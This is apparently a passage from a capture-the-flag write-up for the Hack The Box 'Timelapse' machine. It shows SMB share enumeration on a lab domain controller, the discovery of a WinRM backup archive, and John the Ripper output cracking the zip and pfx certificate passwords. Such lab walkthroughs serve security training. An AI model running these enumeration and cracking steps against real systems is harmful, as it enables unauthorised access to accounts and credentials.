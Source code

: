 ```console
[*] Established 1 SMB session(s)

[+] IP: 10.129.97.209:445       Name: dc01.timelapse.htb        Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share
        Shares                                                  READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share
```

- Discover file inside `Shares`

```console
smb: \> dir Dev/*
  .                                   D        0  Tue Oct 26 03:40:06 2021
  ..                                  D        0  Tue Oct 26 03:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 23:46:42 2021

                6367231 blocks of size 4096. 1337750 blocks available
smb: \> dir HelpDesk/*
  .                                   D        0  Mon Oct 25 23:48:42 2021
  ..                                  D        0  Mon Oct 25 23:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 22:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 22:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 22:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 22:57:44 2021

                6367231 blocks of size 4096. 1337750 blocks available
```

## Foothold

### Sambda Data Leakage

Analyse `winrm_backup.zip` and crack zip file's password and pfx's password:

```console
└─╼$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)
1g 0:00:00:00 DONE (2024-02-24 15:06) 4.347g/s 15119Kp/s 15119Kc/s 15119KC/s surkerior..supalove
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
---------------------------------------------------------------------------------
└─╼$ john hash1 --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)
1g 0:00:00:25 DONE (2024-02-24 15:22) 0.03932g/s 127083p/s 127083c/s 127083C/s thugways..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
